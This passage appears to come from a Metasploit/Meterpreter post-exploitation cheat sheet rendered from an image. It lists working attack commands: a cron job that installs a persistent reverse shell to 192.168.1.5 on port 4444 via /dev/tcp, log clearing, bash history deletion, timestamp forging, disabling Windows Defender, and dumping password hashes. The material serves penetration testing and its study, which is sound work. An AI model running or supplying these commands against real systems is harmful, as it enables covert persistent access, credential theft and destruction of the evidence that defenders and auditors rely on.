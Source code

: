 ### Using Cron Jobs (Linux):
```
# Add a cron job for persistence
shell
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'" > /tmp/cron
crontab /tmp/cron
rm /tmp/cron
exit
```

## Covering Tracks

### Clearing Event Logs (Windows):
```
clearev               # Clear Windows event logs from Meterpreter
```

### Removing Shell History (Linux):
```
shell
unset HISTFILE
rm -f ~/.bash_history
exit
```

### Disabling Logging:
```
use post/windows/manage/disable_windows_defender
set SESSION <ID>
run
```

### Timestomp (Modify File Timestamps):
```
timestomp <file> -m "01/01/2022 12:00:00"  # Modify file's modified time
```

## Reporting

### Taking Screenshots:
```
screenshot            # Capture screen in Meterpreter
```

### Collecting Evidence:
```
hashdump              # Dump password hashes
run post/windows/gather/smart_hashdump  # Smarter hash dumping
run post/multi/gather/env               # Gather environment information
```
